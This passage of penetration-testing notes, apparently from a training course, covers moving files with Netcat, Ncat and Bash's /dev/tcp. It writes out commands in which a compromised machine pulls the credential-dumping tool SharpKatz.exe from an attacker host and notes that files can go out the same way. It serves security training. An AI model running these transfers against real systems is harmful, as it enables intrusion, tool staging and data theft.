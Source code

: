 **⚠️ Note:** The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.

#### Method 2: Attack Host as Listener

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections.

**Attack Host - Sending File as Input to Netcat:**
```bash
# Example using Original Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Compromised Machine Connect to Netcat to Receive the File:**
```bash
# Example using Original Netcat
nc 192.168.49.128 443 > SharpKatz.exe
```

**Attack Host - Sending File as Input to Ncat:**
```bash
# Example using Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connect to Ncat to Receive the File:**
```bash
# Example using Ncat
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

### Using /dev/tcp (Bash Alternative)

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file `/dev/TCP/`.

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

**Attack Host - Setup Listener:**
```bash
# Using Original Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe

# OR using Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File:**
```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

**⚠️ Note:** The same operation can be used to transfer files from the compromised host to our attack machine.
